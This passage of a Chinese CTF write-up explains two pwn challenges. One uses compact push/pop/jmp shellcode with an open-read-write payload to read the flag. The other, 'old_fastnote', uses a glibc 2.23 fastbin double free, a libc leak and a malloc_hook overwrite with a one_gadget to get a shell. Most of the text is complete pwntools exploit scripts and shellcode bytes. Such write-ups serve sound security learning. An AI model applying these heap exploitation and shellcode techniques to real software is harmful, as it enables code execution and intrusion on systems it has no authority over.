    push 1
    pop rax
    syscall
    ''')

pl=b'\x90'*0x60+asm("shl rsp,0xc;add rsp,0x500;")+orw_shellcode
sl(pl)

itr()
```

### 思路 2

还有一个这种方法，反复利用 push pop，巧妙加个 jmp

```plain
#shellcode = asm('''
#    mov esp,0x404100
#    shl edi,12
#    push 0xa
#    push 7
#    x:
#    pop edx
#    pop eax
#    syscall
#    pop edi
#    push esi
#    mov esi,ecx
#    jmp x
#    ''')
```

这里构造思路就是先写到 syscall，然后再写一个 syscall 发现字节太多，所以写个跳转  
其中关键的一步就是执行完 mprotect 后，rcx 会与 rip 值相等，这才有了后面的 mov esi,ecx

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221104644-72e2ebb8-d063-1.png)  
然后 jmp 后 pop edx (前面 push esi) pop eax

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221104701-7d613a04-d063-1.png)  
然后就在写的位置就是执行的位置，很巧妙

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221104708-819bb126-d063-1.png)

### exp2

```plain
import os
import sys
import time
from pwn import *
from ctypes import *

context.os = 'linux'
context.log_level = "debug"

#context(os = 'linux',log_level = "debug",arch = 'amd64')
s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

x64_32 = 1

if x64_32:
    context.arch = 'amd64'
else:
    context.arch = 'i386'

p=process("./pwn")

def duan():
    gdb.attach(p)
    pause()

#shellcode = asm('''
#    mov esp,0x404100
#    shl edi,12
#    push 0xa
#    push 7
#    x:
#    pop edx
#    pop eax
#    syscall
#    pop edi
#    push esi
#    mov esi,ecx
#    jmp x
#    ''')
#print(shellcode)

#\xbc\x00A@\x00\xc1\xe7\x0cj\nj\x07ZX\x0f\x05_V\x89\xce\xeb\xf6' 
shell = b'\xbc\x00A@\x00\xc1\xe7\x0cj\nj\x07ZX\x0f\x05_V\x89\xce\xeb\xf6'
duan()
sa('shellcode\n\n',shell)

#orw_shellcode = asm(shellcraft.cat('flag'))
orw_shellcode = b'j\x01\xfe\x0c$hflag\x89\xe31\xc9j\x05X\xcd\x80j\x01[\x89\xc11\xd2h\xff\xff\xff\x7f^1\xc0\xb0\xbb\xcd\x80'
s(orw_shellcode)
itr()
```

## old\_fastnote

### 思路

依然是无 edit，限制大小 0x80  
不过 2.23 的 fastbin 在 malloc 时会检查拿到的 chunk 的 size 是否正确，所以  
很难申请到任意地址的指针。但是这⾥没有对⻬检查，可以通过字节错位实现绕过。  
add(5,0x68,p64(malloc\_hook-0x23))#0x70 malloc\_hook-0x23  
剩下还是 double free 就行  
2.23 的无 tcache bin，好泄露 libc，直接一个 chunk1 防止合并，然后 delete chunk0 即可

```plain
add(0,0x80,'aaaaaaaa')
add(1,0x80,'aaaaaaaa')
delete(0)
show(0)
libc_base=u64(p.recvuntil('\x7f').ljust(8,'\x00'))-0x3c4b78
leak('libc_base ',libc_base)
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221104747-98d11994-d063-1.png)  
然后在 0x70 处构造一个重叠的链

```plain
add(2,0x68,'aaaaaaaa')
add(3,0x68,'aaaaaaaa')
add(4,0x68,'aaaaaaaa')
delete(2)
delete(3)
delete(2)
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221104802-a13c4c70-d063-1.png)  
然后改 malloc\_hook 为 og，写/bin/sh

```plain
add(5,0x68,p64(malloc_hook-0x23))
add(6,0x68,'/bin/sh\x00')
add(7,0x68,'aaaaaaaa')
add(8,0x68,'a'*0x13+p64(og))
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221104818-ab499196-d063-1.png)  
最后 free 同一个 chunk，触发 double free，调用 malloc，然后 getshell

```plain
delete(3)
delete(3)
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221104846-bbe36928-d063-1.png)

### exp

```plain
import os
import sys
import time
from pwn import *
from ctypes import *

context.os = 'linux'
context.log_level = "debug"

#context(os = 'linux',log_level = "debug",arch = 'amd64')
s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

x64_32 = 1

if x64_32:
    context.arch = 'amd64'
else:
    context.arch = 'i386'

p=process("./pwn")
libc = ELF('./libc-2.23.so')
elf = ELF('./pwn')

def duan():
    gdb.attach(p)
    pause() 

add_idx = 1
delete_idx = 3
show_idx = 2


def choice(cho):
    sla('Your choice:',cho)

def add(idx,size,content):
    choice(add_idx)
    sla('Index: ',idx)
    sla('Size: ',size)
    sa('Content: ',content)

def delete(idx):
    choice(delete_idx)
    sla('Index: ',idx)

def show(idx):
    choice(show_idx)
    sla('Index: ',idx)

add(0,0x80,'aaaaaaaa')
add(1,0x80,'aaaaaaaa')
delete(0)
show(0)
#duan()
libc_base=u64(p.recvuntil('\x7f').ljust(8,'\x00'))-0x3c4b78
leak('libc_base ',libc_base)

malloc_hook = libc_base + libc.sym['__malloc_hook']
free_hook = libc_base + libc.sym['__free_hook']
system = libc_base + libc.sym['system'] 
bin_sh = libc_base + next(libc.search(b'/bin/sh'))
ogs=[0x4527a,0xf03a4,0xf1247]
og=ogs[1]+libc_base

add(2,0x68,'aaaaaaaa')
add(3,0x68,'aaaaaaaa')
add(4,0x68,'aaaaaaaa')
delete(2)
delete(3)
delete(2)

add(5,0x68,p64(malloc_hook-0x23))
add(6,0x68,'/bin/sh\x00')
add(7,0x68,'aaaaaaaa')
add(8,0x68,'a'*0x13+p64(og))

#duan()
delete(3)
delete(3)

#duan()
itr()
```
